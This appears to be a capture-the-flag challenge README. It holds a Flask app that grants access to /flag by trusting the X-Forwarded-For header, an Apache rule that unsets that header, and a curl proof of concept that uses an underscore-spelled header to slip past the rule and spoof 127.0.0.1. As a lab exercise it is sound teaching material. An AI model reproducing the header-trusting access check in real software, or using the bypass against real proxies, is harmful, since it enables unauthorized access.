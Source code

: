 ### Apache + Flask

Add 'RequestHeader unset X-Forwarded-For' to httpd.conf

Try to access /flag from 127.0.0.1.


### Usage

Build
```
docker-compose up
```

### Hint

httpd.conf
```
RequestHeader unset X-Forwarded-For
```

Go http://127.0.0.1:8088/

app.py
``` python
@app.route('/flag')
def flag():

    src_ip = None
    if 'x-forwarded-for' in request.headers:
        match_ip = re.match('[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}', request.headers['x-forwarded-for'])
        if match_ip is not None:
            src_ip = match_ip.group()

    if src_ip is None:
        src_ip = request.remote_addr

    if src_ip == '127.0.0.1':
        return open('flag','r').read()
    else:
        return 'IP From %s is forbidden' % src_ip

```

### POC
``` bash
curl "http://127.0.0.1:8088/flag" -H 'X-Forwarded_For: 127.0.0.1'
```